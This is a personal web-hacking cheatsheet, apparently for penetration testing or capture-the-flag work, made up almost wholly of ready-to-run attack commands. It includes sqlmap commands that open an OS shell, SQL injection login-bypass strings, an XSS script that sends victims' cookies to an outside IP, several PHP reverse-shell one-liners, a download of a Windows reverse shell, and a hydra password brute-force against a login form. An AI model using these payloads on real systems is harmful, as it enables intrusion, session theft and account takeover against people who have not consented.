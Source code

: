 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### Links

[Everything curl](https://everything.curl.dev/)

#### GET Request

`curl http://targetURL`

#### GET Request Save Cookie

`curl -c /tmp/cookies http://targetURL`

#### GET Request with Cookie

`curl -b 'cookiename=cookievalue' https://google.com`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

#### File Upload

`curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`

<!--
##################################################################
##################################################################
-->

## OAuth

#### Enumerating Metadata

**Find OAuth Server URL and make requests below**
`GET /.well-known/oauth-authorization-server`
`GET /.well-known/openid-configuration`
**EXAMPLE** `curl https://accounts.google.com/.well-known/openid-configuration`

<!--
##################################################################
##################################################################
-->

## SQLI

#### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

#### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

#### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

#### Test for XSS

`Hello!<script>alert("Welcome");</script>`

#### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## [SQLite](https://www.sqlitetutorial.net/sqlite-commands/)

#### Access Database

`sqlite3 databasename.db`

#### Show Tables

`.tables`

#### Show Table Info

`PRAGMA table_info(tablename);`
`.schema tablename`

#### Dump Info From Table

`SELECT * FROM customers;`
`.dump tablename`

<!--
##################################################################
##################################################################
-->

## Shells

#### PHP

`php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'`

`php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

#### Windows PHP Reverse Shell

`wget https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php`

<!--
##################################################################
##################################################################
-->

## Brute Forcing

#### Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`

<!--
##################################################################
##################################################################
-->

## Useful Commands
